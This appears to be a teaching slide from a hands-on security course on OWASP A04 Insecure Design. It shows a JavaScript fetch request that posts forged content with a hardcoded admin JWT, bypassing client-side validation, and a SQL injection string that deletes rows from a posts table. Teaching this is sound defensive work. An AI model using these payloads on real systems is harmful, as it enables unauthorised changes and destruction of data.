

Hands on: git and IT security
OWASP – A04  Insecure Design

Idea: Bypass the client-side input validation
const formData = new FormData();
formData.append("header", "InjectedTopic" );
formData.append("content", "Injected content of topic");
formData.append('jwt', "eyJhbGciOiJIUzUxMiJ9.eyJpc3MiOiJhZG1pbiIsIkxPR19JTl9TVEFUVVMiOiJMT0dHRURfSU4iLCJpYXQiOjE3Mzk4MDYzNjJ9.q0qtMHZmzbZA3zmE5Ati7hFfMxzgE0cZq8uE1pBcNvz6SiHIBxh1qJQTLd4U3BJDqzve9WT67BIve_2MSmuIHw");

await fetch("/exploitable/api/post", {method: "POST",body: formData});

Always check input strings from the user and never trust inputs from user

Recovery injection

'); delete from posts where id > 15; delete from posts where post=''; ---